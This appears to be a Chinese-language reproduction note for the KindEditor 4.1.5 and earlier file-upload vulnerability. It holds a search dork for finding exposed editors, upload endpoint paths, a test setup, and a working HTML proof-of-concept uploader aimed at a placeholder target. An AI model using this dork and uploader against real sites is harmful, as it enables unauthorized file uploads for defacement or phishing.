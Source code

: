 # kindeditor<=4.1.5文件上传漏洞

漏洞存在于kindeditor编辑器里，你能上传.txt和.html文件，支持php/asp/jsp/asp.net  
漏洞存在于小于等于kindeditor4.1.5编辑器中  
如何查看编辑器地址
http://192.168.3.148:8888/kindeditor-4.1.1/kindeditor-min.js  
关键字：  
allinurl:/examples/uploadbutton.html  
根本脚本语言自定义不同的上传地址，上传之前有必要验证文件upload_json.*的存在  
/kindeditor-4.1.1/asp/upload_json.asp  
/kindeditor-4.1.1/asp.net/upload_json.ashx  
/kindeditor-4.1.1/jsp/upload_json.jsp  
/kindeditor-4.1.1/php/upload_json.php  

复现环境搭建：  
php环境-dokcer-tutum/lamp  
kindeditor：  
https://github.com/kindsoft/kindeditor/archive/v4.1.1.zip

POC：

```html
<html><head>
<title>Uploader By ICE</title>
<script src="http://[Target]/kindeditor/kindeditor-min.js"></script&gt;
<script>
KindEditor.ready(function(K) {
var uploadbutton = K.uploadbutton({
button : K('#uploadButton')[0],
fieldName : 'imgFile',
url : 'http://[Target]/kindeditor/php/upload_json.asp?dir=file',
afterUpload : function(data) {
if (data.error === 0) {
var url = K.formatUrl(data.url, 'absolute');
K('#url').val(url);}
},
});
uploadbutton.fileBox.change(function(e) {
uploadbutton.submit();
});
});
</script></head><body>
<div class="upload">
<input class="ke-input-text" type="text" id="url" value="" readonly="readonly" />
<input type="button" id="uploadButton" value="Upload" />
</div>
</body>
</html>
```


## 参考

https://www.seebug.org/vuldb/ssvid-89546
